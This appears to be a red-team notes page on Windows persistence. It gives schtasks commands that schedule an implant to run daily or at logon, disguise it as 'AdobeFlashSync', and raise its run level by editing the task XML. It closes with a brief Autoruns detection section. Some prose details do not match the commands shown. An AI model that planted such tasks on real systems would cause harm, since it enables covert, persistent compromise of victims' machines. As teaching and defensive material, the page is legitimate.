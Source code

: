 # Scheduled Tasks

#### Scheduled tasks have been abused by ransomware for a long time and is another commonly used and simple persistence technique. Adversaries can create scheduled tasks that run at a specific time and day and execute arbitrary payloads.

run the following command to generate a new task called MyTask that is scheduled to run daily at 9:00am that will execute the empire.exe binary located in the C:\ root folder.

#### <mark style="color:green;">as a regular USER:</mark>

```tsconfig
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\rto\pers\implant\implant.exe"
schtasks /create /tn "Some task name" /tr "app.exe" /sc HOURLY
schtasks /query /tn "mytasks\go" /fo:list /v
schtasks /run /tn "mytasks\go"
```

#### <mark style="color:green;">as a LOCAL ADMIN:</mark>

```tsconfig
schtasks /create /sc onlogon /tn AdobeFlashSync /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "AdobeFlashSync" /fo list

# take the configurations from an xml file

# export the task config 
schtasks /query /tn AdobeFlashSync /xml > c:\RTO\PERS\tsk.xml

#under <principal> section add this tag:
<RunLevel>HighestAvailable</RunLevel>
 
# then remove the task and make a new one with the modified configuration
schtasks /delete /f /tn AdobeFlashSync
schtasks /create /tn AdobeFlashSync /xml c:\RTO\PERS\tsk.xml

# now the privilege level is local admin
```

## <mark style="color:red;">Multi-action Tasks</mark>

By modifying the task configuration file, we can add additional actions to the scheduled task under `<Actions>` section.

for example we can execute a binary file by adding :

```xml
<Exec>
    <Command>c:\users\rto\desktop\implant.exe</Command>
</Exec>
```

## <mark style="color:red;">Detection</mark>

Microsoft has a Windows internals utility called Autoruns that shows you what programs are configured to run during system bootup or login. On the victim machine run the Autoruns64.exe as administrator.

Going to the Logon tab we can see the Run registry key that was added pointing to the empire.exe binary as well as the empire.exe binary that was dropped to the Startup folder.

![](<../../../.gitbook/assets/image (157).png>)

Under the Scheduled Task tab I can see the MyTask that points to the empire.exe saved in the root C:\\

![](<../../../.gitbook/assets/image (144).png>)
